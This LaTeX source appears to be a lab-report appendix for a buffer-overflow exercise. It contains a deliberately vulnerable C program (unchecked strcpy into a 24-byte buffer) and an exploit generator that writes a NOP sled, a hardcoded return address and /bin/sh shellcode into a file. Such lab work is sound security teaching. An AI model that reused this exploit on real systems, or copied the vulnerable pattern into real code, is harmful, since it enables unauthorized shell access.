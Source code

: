\documentclass[a4paper,12pt]{article}
\begin{document}
\section{Appendix}
\subsection{Buffer Overflow Exploitation: \texttt{stack.c}}
\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (char *str)
{
    char buffer[24];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile","r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
\end{verbatim}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{verbatim}
/* Creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];

    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    //Fill up the buffer
    long *fill = (long *) buffer;
    int i;
    for(i=0;i<9;i++,fill++) *fill=0x90909090;
    *fill=0xbffff170;
    strcpy(buffer+64,shellcode);

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{verbatim}
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		
		\textbf{Return to LibC Attack\\}		
		
		\vfill
	\end{center}
\end{titlepage}
\end{document}
